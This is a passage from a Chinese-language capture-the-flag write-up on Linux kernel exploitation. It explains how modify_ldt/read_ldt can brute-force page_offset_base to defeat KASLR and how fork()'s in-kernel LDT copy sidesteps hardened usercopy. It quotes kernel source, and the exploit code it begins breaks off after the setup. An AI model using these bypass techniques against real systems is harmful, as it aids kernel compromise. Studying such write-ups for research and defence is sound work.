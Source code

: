 
`read_ldt()` 还能帮助我们绕过 KASLR ，这里我们要用到 `copy_to_user()` 的一个特性：对于非法地址，其**并不会造成 kernel panic，只会返回一个非零的错误码**，我们不难想到的是，我们可以多次修改 ldt->entries 并多次调用 modify\_ldt() 以**爆破内核的 page\_offset\_base**，若是成功命中，则 modify\_ldt 会返回给我们一个非负值。

不过由于 hardened usercopy 的存在，我们并不能够直接读取内核代码段或是线性映射区中大小不符的对象的内容，否则会造成 kernel panic。

#### Step.II - 利用 fork 绕过 hardened usercopy

虽然在用户空间与内核空间之间的数据拷贝存在 hardened usercopy，**但是在内核空间到内核空间的数据拷贝间并不存在类似的保护机制**，因此我们可以通过一些手段绕过 hardended usercopy。

阅读 Linux 内核源码，我们不难观察到当进程调用 `fork()`  时，内核会通过 `memcpy()` 将父进程的 `ldt->entries` 上的内容拷贝给子进程：

```c
/*
 * Called on fork from arch_dup_mmap(). Just copy the current LDT state,
 * the new task is not running, so nothing can be installed.
 */
int ldt_dup_context(struct mm_struct *old_mm, struct mm_struct *mm)
{
    //...

    memcpy(new_ldt->entries, old_mm->context.ldt->entries,
           new_ldt->nr_entries * LDT_ENTRY_SIZE);

       //...
}
```

该操作**是完全处在内核中的操作**，因此不会触发 hardened usercopy 的检查，我们只需要在父进程中设定好搜索的地址之后再开子进程来用 read\_ldt() 读取数据即可。

### EXPLOIT

最后的 exp 如下，这也是笔者在比赛时所用的解法：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <asm/ldt.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>

int dev_fd;

struct node {
    uint32_t idx;
    uint32_t size;
    void *buf;
};

void err_exit(char * msg)
{
    printf("[x] %s \n", msg);
    exit(EXIT_FAILURE);
}
```